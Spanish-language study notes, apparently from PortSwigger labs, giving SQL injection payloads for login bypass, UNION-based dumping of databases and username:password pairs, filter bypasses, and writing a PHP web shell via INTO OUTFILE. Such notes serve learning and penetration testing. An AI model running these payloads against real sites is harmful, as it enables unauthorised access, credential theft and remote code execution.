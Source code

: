 
Variable a cambiar --> $WORD

# Vulnerabilty in where cluase allowing retrieval of hidden data

La típica de toda la vida

````sql
$WORD' or 1=1-- -
-- o se puede poner así también:
$WORD' or 1=1#
````
Ej:
![[Pasted image 20230122161824.png]]

#### Explicación
- Con la primera comilla simple(**'**) estamos haciendo que se cierre el campo de la categoría.
- **or 1=1** --> Esto se pone porque se está indicando que es **verdadero**
- Con el comentario (**-- -**) estamos indicando que el resto de la query que se aplica **no se interprete**

Filtrame por la categoría accesorios o 1=1 (que es true)
![[Pasted image 20230122162356.png]]

# Vulnerability allowing login bypass
````sql
administrator'-- -
o
administrator'#
````


#### Explicación
- Con la comilla simple estamos cerrando el campo

- Si no esta bien sanitizado y en el panel de administrador hace una query parecida a la de la imagen para comprobar que el usuario y la contraseña sean verdadero podemos comentar el resto de la query con **-- -** o **#** 
![[Pasted image 20230122164703.png]]

Así que estamos diciendo que cuando el usuario sea válido podremos entrar

Si pide la contraseña puede que sea por la validación de la parte de front-end, se pone cualquier cosa y listo
![[Pasted image 20230122165427.png]]

# Union Attack, determing the number of columns returned by the query 

El primer paso es **averiguar el número de columnas**

Error based
````sql
$WORD' order by 100-- -
````

![[Pasted image 20230122171131.png]]


#### Explicación general
**Error based** o cuando se ve un error.
Esto se trata de causar un error que se mostrará en la página y así nosostros identificamos que es vulnerable a sqli

100 --> Es el número de columnas por el que le estamos pidiendo que ordene, en caso de no existir 100 columnas saltaría un error, de está forma vamos a ir probando **hasta que no salte error**, cuando esto sea así significa que ese es el **máximo de columnas**


**La diferencia de usar order by y del unio**n es que el union **solo se mostrara cuando es el número exacto de columnas**, mientras que el **order by** se mostrará cuando sea el número **igual que la columna o más pequeño**
También se puede con union:
````sql
$WORD' union select 1-- -
````


En este caso cuando no de error, es que esa es la cantidad de columnas existentes

Una vez conocido el total de columnas utilizamos el union:
````sql
$WORD' union select 1,2,3-- -
````
Los **números representan las columnas existentes**.
Si no funciona con números probar con **null**
![[Pasted image 20230122171929.png]]
Si esto funciona podemos empezar a introducir comandos sql en los números:
````sql
$WORD' union select version(),user()-- -
````
Puede que en algunas webs se interprete php y podamos poner comandos ("\<?php system('whoami'); ?>")

==Atención!==
**No todos los campos son válidos/inyectables** para introducir los comandos, tenemos que fuzzear  todos los campos para ver cuál es el válido

## Listar BD

**Ver las bases de datos disponibles**
````sql
$WORD' union select 1,schema_name from information_schema.schemata-- -
````
**En algunas ocasiones no deja mostrar varias filas**, para ello podemos utiliza la función concat()
````sql
$WORD' union select 1,concat(schema_name) from information_schema.schemata-- -
````

==Importante==
La función group_concat() y concat() no hacen lo mismo
- ``group_concat()`` --> combina valores en **columnas**
- ``concat()`` --> combina valores en **filas**

También podemos ir viendo los resultados uno a uno con limit:
````sql
$WORD' union select 1,schema_name from information_schema.schemata limit 0,1-- -

-- 1,1   2,1    3,1 ...
````


````sql
$WORD' union select schema_name,null from information_schema.schemata-- -
````

## Listar tablas

Una vez conozcamos las bases de datos tenemos que **averiguar las columnas/filas de estas**

Lo malo de esto es que **te representa todas las tablas de todas las bases de datos**
````sql
$WORD' union select table_name,null from information_schema.tables-- -
````

Para que no pase esto podemos utilizar where:
````sql
$WORD' union select table_name,null from information_schema.tables where table_schema='public'-- -
````

## Listar Columnas
Ahora que conocemos las tablas queremos **dumpear las columnas**
````sql
$WORD' union select column_name,null from information_schema.columns where table_schema='NombreBaseDeDatos' and table_name='NombreTablaAListar' -- -
````

## Ver campos y datos
Si lo permite podemos utilizar los dos campos para que un lado aparezca el nombre y en otro aparezca la contraseña:
````sql
$WORD' union select username, password from users-- -
````

Si no te lo permite y solo puedes con un campo puedes utilizar la función concat:
````sql
$WORD' union select null, concat(username,':',password) from users-- -
````

En caso de que sea otra base de datos la que contiene estos campos tendríamos que indicarlo
````sql
$WORD' union select null, concat(username,':',password) from OtraTabla.users-- -
````

### Otra forma de concatenar la información (Bypassing con pipes || )
Si no permite la anterior podemos probar así:
````sql
$WORD' union select null, username||':'||password from users-- -
````

### Bypassing cadenas de caracteres con hexadecimal
Si no deja poner una cadena de separatoria (como son los : puedes poner su valor en **hexadecimal**):
````sql
$WORD' union select null, concat(username,'0x3a',password) from users-- -
````

Si no deja representar alguna cadena de texto en otro sitio sería igual, lo podemos representar en hexadecimal, para ello podemos utilizar lo siguiente:
````sql
echo "admin" | tr -d '\n' | xxd -ps
````
Con el tr -d '\n' le estamos quitando el salto de línea para que se represente

En caso de que no dejará podriamos ir a la [cheat sheet de portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### SQLI --> RCE

**Si tenemos permiso de escritura** incluso podemos colar archivos:
````sql
$WORD' union select <?php system('whoami'); ?>,"test" into outfile "/var/www/html/COMANDO.php"-- -
````
La ruta no tiene porque ser está, esto tendríamos que investigar cual sería

Vídeo de s4vi --> 1:13:20

# Fuentes
Laboratorio Portwsigger
[S4vitar](https://www.youtube.com/watch?v=C-FiImhUviM&list=PLWys0ZbXYUy4WG1HQEtg90-bspFWjExPy)
[Cheat sheet de portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

